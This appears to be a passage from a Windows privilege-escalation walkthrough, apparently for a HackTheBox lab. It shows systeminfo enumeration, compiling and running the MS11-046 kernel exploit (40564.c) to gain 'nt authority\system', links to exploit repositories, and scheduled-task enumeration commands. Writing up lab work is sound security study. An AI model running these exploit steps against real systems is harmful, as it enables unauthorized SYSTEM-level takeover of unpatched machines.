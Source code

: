 ``` bash
c:\windows\system32\inetsrv>systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
System Type:               X86-based PC
```

``` bash
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

``` bash
c:\Users\Public>40564.exe
40564.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

[Vulnerability in Ancillary Function Driver](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/003-devel_aspx-backdoor_ms11-046-6.1.7600#vulnerability-in-ancillary-function-driver)

### Windows MS11-046 kernel

``` bash
c:\Windows\System32>systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
OS Name:                   Microsoftr Windows Serverr 2008 Standard 
OS Version:                6.0.6001 Service Pack 1 Build 6001
```

[https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046](https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046)

``` bash
C:\wamp\www>MS11-046.exe
MS11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

## Scheduled Tasks

``` bash
schtasks /query /fo LIST /v
```

``` bash
schtasks /query /fo LIST /v | findstr /B /C:"Task To Run" /C:"Next Run Time" /C:"Last Run Time" /C:"Schedule Type" /C:"Start Time" /C:"Start Date"
```

## Processes and Services
